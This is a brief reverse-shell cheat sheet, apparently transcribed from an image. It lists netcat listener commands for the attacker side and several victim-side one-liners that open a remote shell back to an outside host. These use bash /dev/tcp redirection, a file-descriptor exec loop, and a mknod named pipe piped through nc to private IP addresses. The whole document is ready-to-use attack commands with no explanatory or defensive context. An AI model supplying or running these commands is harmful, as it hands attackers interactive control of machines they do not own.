 # Bash

## Bash Reverse

```
nc -l -p 8080 -vvv     →  attacker

exec 5<>/dev/tcp/[ip]/8080 → host
cat <&5 | while read line; do $line 2>&5 >&5; done → host
```

## mknod Reverse Shell

```
nc -nvlp 6666 → attacker

mknod /tmp/backpipe p; /bin/sh 0< /tmp/backpipe | nc 192.168.56.1 6666 1> /tmp/backpipe → victim
```

## bash reverse ( nc -nvlp 8080)

```
bash -i >& /dev/tcp/192.168.56.1/8080 0>&1  

or

0<&196;exec 196<>/dev/tcp/10.0.0.1/666; sh <&196 >&196 2>&196

or

bash -c 'bash -i >& /dev/tcp/10.0.0.1/666 0>&1'
```

